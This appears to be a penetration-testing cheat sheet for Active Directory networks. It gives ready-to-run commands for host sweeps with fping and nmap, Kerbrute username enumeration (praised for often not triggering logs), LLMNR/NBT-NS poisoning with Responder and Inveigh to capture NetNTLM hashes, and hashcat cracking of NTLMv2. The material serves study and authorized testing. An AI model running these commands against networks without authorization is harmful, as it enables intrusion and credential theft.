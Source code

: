 # Active identification of any hosts in the network
### FPing Active Checks
A lightweight, fast utility for performing ICMP sweeps.
```shell
fping -asgq 10.10.5.0/23
```
### Nmap Scanning
AD Focus protocols (Ports): DNS, SMB, LDAP, Kerberos.
```shell
sudo nmap -v -A -iL hosts.txt -oN host-enum
```
Hostes Gathered from fping
## Identifying Users
### Kerbrute - Internal AD Username Enumeration
[Kerbrute](https://github.com/ropnop/kerbrute) can be a stealthier option for domain account enumeration. It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts. We will use Kerbrute in conjunction with the `jsmith.txt` or `jsmith2.txt` user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames). This repository contains many different user lists that can be extremely useful when attempting to enumerate users.
```shell
kerbrute userenum -d [DOMAIN] --dc [IP_ADDRESS] [WORDLIST]
kerbrute userenum -d domain.local --dc 172.16.5.5 jsmith.txt
```
# LLMNR/NBT-NS Poisoning
Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.
The point here is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with Responder to poison these requests. By this we can capture the NetNTLM hash and subject it to an offline brute force attack in an attempt to retrieve the cleartext password.
## LLMNR/NBT-NS Poisoning - from Linux
Passive analysis mode (only sniffs/alerts, no poisoning).
```shell
sudo responder -I <interface> -A
```
Active attack mode (performs poisoning + captures hashes).
```shell
sudo responder -I <interface> -wrfv
```
log file per host located in the `/usr/share/responder/logs`
#### Cracking an NTLMv2 Hash With Hashcat
``` shell
hashcat -m 5600 hash_ntlmv2 /usr/share/wordlists/rockyou.txt
```
## LLMNR/NBT-NS Poisoning - from Windows
By using tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) and attempt to capture another set of credentials. [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

On powershell (Open as admin)
``` powershell
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
_Note_: PowerShell terminal must run with admin priv.
Using .exe
Inveigh [v2.0.11](https://github.com/Kevin-Robertson/Inveigh/releases/tag/v2.0.11)
steps on powershell (opened as admin)
```powershell
.\Inveigh.exe
```
_Note_: During capturing you can Press ESC to enter/exit interactive console, After typing `HELP` and hitting enter, we are presented with several options:
- We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`
- We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected.
